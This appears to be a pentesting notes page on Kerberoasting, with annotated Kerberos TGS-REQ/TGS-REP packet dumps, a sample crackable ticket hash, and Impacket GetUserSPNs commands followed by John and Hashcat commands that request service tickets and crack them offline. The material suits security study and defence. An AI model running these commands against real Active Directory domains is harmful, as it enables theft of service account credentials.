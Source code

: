 
# Kerberoasting
Kerberoasting is an attack that targets the Kerberos authentication protocol to extract service account credentials. 

- The attack exploits the way Kerberos handles service tickets (TGS-REP). 
- Service Tickets are encrypted with service account's NTLM hash.
- So, By requesting service tickets for all SPNs (Service Principal Names), an attacker can perform offline brute-force attack to obtain plaintext passwords.

Here's how it works:

- **TGT-REQ:** Client send its TGT + authenticator (encrypted with session key) and the service name to the Ticket Granting Server.

- **TGS-REP:** Ticket Granting server verifies the TGT and responds with the Service Ticket Encrypted with the Service account password hash + a new session key encrypted with old session key.

### TGS REQ

```
Kerberos TGS-REQ
	pvno: 5
	msg-type: krb-tgs-req (12)
	padata: 1 item
	    PA-DATA
            padata-type: pA-TGS-REQ (1)
            padata-value: 6e82953d308290539a003920105
	req-body
	    Padding: 0
	    kdc-options: 40810010 (hex)
	    realm: DOMAIN.COM
	    sname:
            name-type: kRB5-NT-MS-PRINCIPAL (-128)
            sname-string:
               SNameString: DOMAIN.COM\web_srv
	    till: Jul 8, 2025 03:54:18.000000000 IST
	    nonce: 665478473
	    etype:
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4]
	        eTYPE-DES3-CBC-SHA1 (16)
	        eTYPE-DES-CBC-MD5 (3)
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4 - repeated]
	    
```

- padata: TGT (encrypted with KDC secret key) + timestamp (encrypted with session key)
- sname: service name
### TGS REP

```
Kerberos TGS-REP
	pvno: 5
	msg-type: krb_tgs_rep 13
    crealm: DOMAIN.COM
	cname:
	    nametype: 1 (kRB5-NT-PRINCIPAL)
	    name: bob
	ticket
	    tkt-vno: 5
	    realm: DOMAIN.COM
	    sname:
	        nametype: -128 (kRB5-NT-MS-PRINCIPAL)
	        snamesting: DOMAIN.COM\web_svc
	    enc-part
	        etype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	        kvno: 2
	        cipher: d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4
	enc-type:
	    enctype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	    cipher: a7e146fddf968e4b838ccae2687944c04fa3519d2fea8aeddff42

```

- cname: Client requesting the ticket.
- ticket: Service ticket for web_svc.
- ticket.enc-part: The ticket encrypted with the service's key (web_svc's password hash only the service and KDC know this key).
- enc-type: here again session key, encrypted with the session key from TGT.

```
$krb5tgs$23$*web_svc$DOMAIN.COM$domain.com/web_svc*d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4...
```

## Performing Kerberoasting with Impacket

**With a password**
```
impacket-GetUserSPNs <domain>/username:password -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py <domain>/<username>:<password> -dc-ip <domain_controller_ip> -request
```

**With a hash**
```
impacket-GetUserSPNs -hashes <lmhash>:<nthash> <domain>/username -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py -request -hashes LMHASH:NTHASH <domain>/<username>:<ntlm_hash> -dc-ip <domain_controller_ip>
```

![image info](../assets/Pasted%20image%2020250721115853.png)

## Crack Kerberose Hash

```
john --format=krb5tgs --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
```

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlist/rockyou.txt
```

![image info](../assets/Pasted%20image%2020250721122054.png)